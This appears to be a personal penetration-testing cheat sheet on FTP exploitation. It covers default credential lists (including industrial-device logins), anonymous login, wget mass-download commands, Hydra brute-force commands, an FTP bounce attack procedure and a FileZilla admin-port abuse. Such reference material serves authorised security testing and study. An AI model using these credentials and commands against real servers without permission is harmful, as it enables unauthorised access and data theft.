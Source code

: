 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/FTP/Exploitation
links: "[[FTP]]"
---
```


# FTP Exploitation

<!-- Common Credentials {{{-->
## Common Credentials

FTP default credential examples

```
anonymous : anonymous
_anonymous :
_ftp : ftp
admin : admin
root : root
ftpuser : ftpuser
test : test
```

<!-- FTP Default Password List {{{-->
> [!info]-
> FTP Default Password List
>
> [GitHub - SecLists - ftp-betterdefaultpasslist.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)
> ```sh
> anonymous:anonymous
> test:test
> root:root
> administrator:administrator
> ftpuser:ftpuser
> root:rootpasswd
> root:12hrs37
> ftp:b1uRR3
> admin:admin
> localadmin:localadmin
> admin:1234
> apc:apc
> admin:nas
> Root:wago
> Admin:wago
> User:user
> Guest:guest
> ftp:ftp
> admin:password
> a:avery
> admin:123456
> adtec:none
> admin:admin12345
> none:dpstelecom
> instrument:instrument
> user:password
> root:password
> default:default
> admin:default
> nmt:1234
> admin:Janitza
> supervisor:supervisor
> user1:pass1
> avery:avery
> IEIeMerge:eMerge
> ADMIN:12345
> beijer:beijer
> Admin:admin
> admin:1234
> admin:1111
> root:admin
> se:1234
> admin:stingray
> device:apc
> apc:apc
> dm:ftp
> dmftp:ftp
> httpadmin:fhttpadmin
> user:system
> MELSEC:MELSEC
> QNUDECPU:QNUDECPU
> ftp_boot:ftp_boot
> uploader:ZYPCOM
> ftpuser:password
> USER:USER
> qbf77101:hexakisoctahedron
> ntpupdate:ntpupdate
> sysdiag:factorycast@schneider
> wsupgrade:wsupgrade
> pcfactory:pcfactory
> loader:fwdownload
> test:testingpw
> webserver:webpages
> fdrusers:sresurdf
> nic2212:poiuypoiuy
> user:user00
> su:ko2003wa
> MayGion:maygion.com
> admin:9999
> PlcmSpIp:PlcmSpIp
> ```
<!-- }}} -->
<!-- }}} -->

<!-- Anonymous Login {{{-->
## Anonymous Login

Anonymous login

```sh
ftp <ip>
>anonymous # Username
>anonymous # Password
>binary # Set transmission to binary
>ascii # Set transmission to ASCII
>bye # Exit
```

> [!example]-
> Anonymous Login example
>
>```sh
>ftp -p 10.129.42.253
>```
>
>```sh
>Connected to 10.129.42.253.
>220 (vsFTPd 3.0.3)
>Name (10.129.42.253:user): anonymous
>230 Login successful.
>Remote system type is UNIX.
>Using binary mode to transfer files.
>```

Download all files

```sh
wget -m ftp://anonymous:anonymous@<target_ip>
```

```sh
wget -m --no-passive ftp://anonymous:anonymous@<target_ip>
```
<!-- }}} -->

<!-- Brute Force {{{-->
## Brute Force

Brute Force FTP login with Hydra

```sh
hydra -l {target_user} -P {password_list} <target_ip> ftp
```

```sh
hydra -L {users_list} -p {password} ftp://<target_ip>
```

> [!tip]
>
> Try [[Exploitation#Common Credentials|FTP Common Credentials]] and other
> [password lists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)
<!-- }}} -->

<!-- FTPBounce Attack {{{-->
## FTPBounce Attack

Some FTP servers allow the command `PORT`, that can be used to instruct the
server to connect to another FTP servers at a specified port. This behavior can
be exploited to scan which ports on a target host are open through an FTP
server.

[HackTricks - FTP Bounce Attack - Scan](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ftp/ftp-bounce-attack.html)

This behavior can be abused to make an FTP server interact with other protocols.
A file (containing a HTTP request) can be uploaded to the FTP server and sent to
an arbitrary HTTP server:

1. **Upload the request** (in a *txt* file) to the server.
   To talk with another HTTP or FTP server, the line endings need to be changed
   to `0x0d` `0x0a`

2. **Use** `REST X` **to avoid sending unwanted characters**

3. **Use** `PORT` **to connect to the arbitrary server and service**

4. **Use** `RETR` **to send the saved request to the server**

**NOTE**: It's highly possible that this will throw an error (e.g. *Socket not
writeable*), as the connection doesn't last long enough to send the data with
`RETR`. To avoid this:

- **Put the same request on after another** ([like this](https://book.hacktricks.wiki/en/files/posts.txt))
  until ~0.5MB, if sending the same HTTP request
- **Fill the request with "junk" data** relative to the protocol
- **Fill the request with a lot of null characters**

<!-- }}} -->

## FileZilla Server Vulnerability

**[FileZilla](https://filezilla-project.org/) Server** usually binds to the
local administrative TCP port `14147`. If it is possible to create a tunnel
from the attacker machine to this port:

- Authenticate using a blank password
- Create a new user for the FTP service

<!-- FTP Post-Exploitation {{{-->
# FTP Post-Exploitation

Download all files

```sh
wget -r --user="USERNAME" --password="PASSWORD" ftp://<server_address>/
```
<!-- }}} -->
